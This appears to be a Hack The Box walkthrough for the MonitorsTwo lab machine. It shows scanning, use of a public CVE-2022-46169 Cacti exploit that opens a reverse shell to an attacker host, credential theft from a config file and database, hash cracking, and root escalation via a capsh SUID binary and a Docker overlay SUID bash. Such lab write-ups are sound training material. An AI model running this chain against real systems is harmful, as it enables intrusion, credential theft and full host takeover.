

# [MonitorsTwo](https://app.hackthebox.com/machines/monitorstwo)

```bash
nmap -p- --min-rate 10000 10.10.11.211 -Pn 
```


After detection of open ports, let's do greater scan.

```bash
nmap -A -sC -sV -p22,80 10.10.11.211 -Pn
```


Let's look at web application.


It is `Cacti` application via version `1.2.22`, let's search publicly known exploit to use against this machine.

That's [CVE-2022-46169](https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22)

Let's use this exploit.
```bash
python3 CVE-2022-46169.py -u http://10.10.11.211/ --LHOST=10.10.14.11 --LPORT=1337
```


Hola, I got reverse shell from port `1337`.


Let's make interactive shell.
```bash
script /dev/null -c bash
Ctrl+Z
stty raw -echo; fg
export TERM=xterm  
export SHELL=bash  
```


I look at `include/config.php` file which contains database credentials.


Let's use this credentials to login into `Mysql`.

```bash
mysql -h db -u root -p
```

I used database called `cacti` and table `user_auth` which contains user's credentials.


Let's crack these hashes via `hashcat` tool.
```bash
hashcat -m 3200 hash.txt --wordlist /usr/share/wordlists/rockyou.txt
```


marcus: funkymonkey


Let's check this credentials against our machine via `ssh`


user.txt


Let's enumerate mounted file systems.
```bash
df -h
```


Two of them are used for `overlay`.

Let's look at one of them.

```bash
ls -al /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
```


While I create some file on container as below.


I can see this file on `Host` machine as `overlay` mounted system.


Then, I looked at `container` machine to search `SUID` files.
```bash
find / -perm -4000 -ls 2>/dev/null
```


Let's use `capsh` binary as [Gtfobins](https://gtfobins.github.io/gtfobins/capsh/#suid) said.

```bash
capsh --gid=0 --uid=0 --
```


As we are root on `container`, we can do privilege escalation on `Host` machine due to `MKNOD` capability.

I create copied `/bin/bash` file on container and use this via `-p` flag on `Host` machine.

First, let's create `/bin/bash` file and give `SUID` privilege.
```bash
cp /bin/bash /tmp/copied_bash
chmod 4777 /tmp/copied_bash
```




Then use this copied `/bin/bash` on `Host` machine via `-p` flag.
```bash
/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/tmp/copied_bash -p
```


root.txt

